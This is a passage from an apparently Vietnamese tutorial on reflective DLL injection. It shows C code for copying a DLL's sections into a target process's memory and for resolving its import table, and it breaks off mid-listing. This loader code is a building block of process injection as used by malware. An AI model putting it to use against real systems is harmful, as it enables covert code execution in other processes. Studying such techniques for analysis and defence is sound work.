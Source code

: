   - Bước 3: Nạp tất cả các section của dll vào tiến trình mục tiêu

    ```C
    uiValueA = ((ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader + ((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.SizeOfOptionalHeader);

    uiValueE = ((PIMAGE_NT_HEADERS)uiHeaderValue)->FileHeader.NumberOfSections;
    while (uiValueE--)
    {
        uiValueB = (uiBaseAddress + ((PIMAGE_SECTION_HEADER)uiValueA)->VirtualAddress);

        uiValueC = (uiLibraryAddress + ((PIMAGE_SECTION_HEADER)uiValueA)->PointerToRawData);

        uiValueD = ((PIMAGE_SECTION_HEADER)uiValueA)->SizeOfRawData;

        while (uiValueD--)
            *(BYTE*)uiValueB++ = *(BYTE*)uiValueC++;

        uiValueA += sizeof(IMAGE_SECTION_HEADER);
    }
    ```

  - Bước 4: Duyệt qua tất cả các hàm được import (IAT)

    ```C
    uiValueB = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiHeaderValue)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];

    uiValueC = (uiBaseAddress + ((PIMAGE_DATA_DIRECTORY)uiValueB)->VirtualAddress);

    while (((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->Name)
    {
        uiLibraryAddress = (ULONG_PTR)pLoadLibraryA((LPCSTR)(uiBaseAddress + ((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->Name));

        uiValueD = (uiBaseAddress + ((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->OriginalFirstThunk);

        uiValueA = (uiBaseAddress + ((PIMAGE_IMPORT_DESCRIPTOR)uiValueC)->FirstThunk);

        while (DEREF(uiValueA))
        {
            if (uiValueD && ((PIMAGE_THUNK_DATA)uiValueD)->u1.Ordinal & IMAGE_ORDINAL_FLAG)
            {
                uiExportDir = uiLibraryAddress + ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;

                uiNameArray = (ULONG_PTR) & ((PIMAGE_NT_HEADERS)uiExportDir)->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT];

                uiExportDir = (uiLibraryAddress + ((PIMAGE_DATA_DIRECTORY)uiNameArray)->VirtualAddress);

                uiAddressArray = (uiLibraryAddress + ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->AddressOfFunctions);

                uiAddressArray += ((IMAGE_ORDINAL(((PIMAGE_THUNK_DATA)uiValueD)->u1.Ordinal) - ((PIMAGE_EXPORT_DIRECTORY)uiExportDir)->Base) * sizeof(DWORD));

                DEREF(uiValueA) = (uiLibraryAddress + DEREF_32(uiAddressArray));
            }
            else
            {
                uiValueB = (uiBaseAddress + DEREF(uiValueA));
